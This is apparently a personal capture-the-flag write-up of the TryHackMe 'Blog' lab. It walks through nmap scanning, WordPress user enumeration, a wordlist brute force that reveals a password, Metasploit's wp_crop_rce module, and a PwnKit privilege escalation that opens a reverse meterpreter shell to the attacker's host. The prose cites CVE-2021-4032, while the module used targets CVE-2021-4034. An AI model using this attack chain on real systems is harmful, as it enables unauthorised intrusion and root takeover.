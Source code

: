 ```yaml
---
title: /writeups/Blog
layout: post
permalink: /writeups/Blog
---
```

Writeup of THM Machine called <a href="https://tryhackme.com/room/blog">"Blog"</a>

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
</pre></td><td class="rouge-code"><pre>Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.

Credit to Sq00ky for the root privesc idea ;) 
</pre></td></tr></tbody></table></code></pre></div></div>

<h1>Enumeration</h1>
<p>Obviously the first thing I did was an nmap scan:</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
</pre></td><td class="rouge-code"><pre>$ nmap -T4 -A -sV blog.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 15:42 CET
Nmap scan report for blog.thm < ip >
Host is up (0.069s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp   open     http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-title: Billy Joels IT Blog The IT blog
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
5906/tcp filtered rpas-c2
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Host script results:
|_nbstat: NetBIOS name: BLOG, NetBIOS user: , NetBIOS MAC:(unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2024-02-04T14:42:59+00:00
| smb2-time: 
|   date: 2024-02-04T14:42:59
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ 
Nmap done: 1 IP address (1 host up) scanned in 19.93 seconds 
</pre></td></tr></tbody></table></code></pre></div></div>

I personally didn't even try to enumerate smb further, luckily, I saw in other writeups that it's a honeypot
<p>However, we can see, that on port 80 there's an http server<p>
<h1>HTTP</h1>

<img src="/images/BlogMain.png" alt="Wordpress Home site" />


We can see, that it is a wordpress blog, so I run wpscan (I removed boring stuff): 

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
</pre></td><td class="rouge-code"><pre>┌──(silen㉿pop-os)-[~/Desktop/THM/Blog]
└─$ wpscan --url http://blog.thm -e u 
Interesting Finding(s):

[+] robots.txt found: http://blog.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%
 
[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.thm/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 |  - http://blog.thm/comments/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:01
 
[i] User(s) Identified:
 
[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
 
[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
</pre></td></tr></tbody></table></code></pre></div></div>


<p>First of all, it tells us that the wordpress is running on version 5.0. Quick google search gets us CVE-2019-8943 to which, we need user login and password, but wpscan also helps us there as it gives us two usernames - "kwheel" and "bjoel". I decided to bruteforce them because I didn't have any other idea. Also, kwheel seemed to probably care less about her password than her son, so I tried to brute force her user first.</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
</pre></td><td class="rouge-code"><pre>┌──(silen㉿pop-os)-[~/Desktop/THM/Blog]
└─$ wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U kwheel -t 32
 
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / <oz#mJ@y8C$vq6@>                                                                                                                                                                                                                
Trying kwheel / <oz#mJ@y8C$vq6@> Time: 00:00:46 <                                                                                                                                                              > (<37> / 14347272)  0.02%  ETA: ??:??:??
 
[!] Valid Combinations Found:
 | Username: kwheel, Password: <oz#mJ@y8C$vq6@>
</pre></td></tr></tbody></table></code></pre></div></div>
As you can see we found valid combination. 

<p>I mentioned CVE-2019-8943 before, it turns out, there is a metasploit module which we can use called "exploit/multi/http/wp_crop_rce", after setting up every option and running exploit, we gain a shell!</p>

<h1>PrivEsc</h1>
I saw a nicer way (envolving reverse engineering) to do privelege escalation than I had done, but I will show my simple way using metasploit modules.

<p>The first module I run was "post/multi/manage/shell_to_meterpreter", which made it possible to use exploit suggester (post/multi/recon/local_exploit_suggester)<p/>
<p>Suggester tells us, that the system is vulnerable to CVE-2021-4032</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
</pre></td><td class="rouge-code"><pre>msf6 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set session 4
session => 4
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set lhost tun0
lhost => 37.37.37.37
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set lport 9898
lport => 9898
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > exploit
 
[*] Started reverse TCP handler on <ip>:9898 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.pltvpwc
[+] The target is vulnerable.
[*] Writing '/tmp/.zbzpuhuxuf/huogglp/huogglp.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.zbzpuhuxuf
[*] Sending stage (3045380 bytes) to <ip>
[+] Deleted /tmp/.zbzpuhuxuf/huogglp/huogglp.so
[+] Deleted /tmp/.zbzpuhuxuf/.vtxjvu
[+] Deleted /tmp/.zbzpuhuxuf
[*] Meterpreter session 5 opened (<ip>:9898 -> <ip>:59766) at 2024-02-04 18:35:48 +0100

meterpreter > shell
Process 5384 created.
Channel 1 created.
whoami
root
</pre></td></tr></tbody></table></code></pre></div></div>
<p>After running which, we gain root access!</p>
<p>Now we can look for flags one of which is hidden in "/media/usb", and move to the next room :D</p>


Thank you for reading
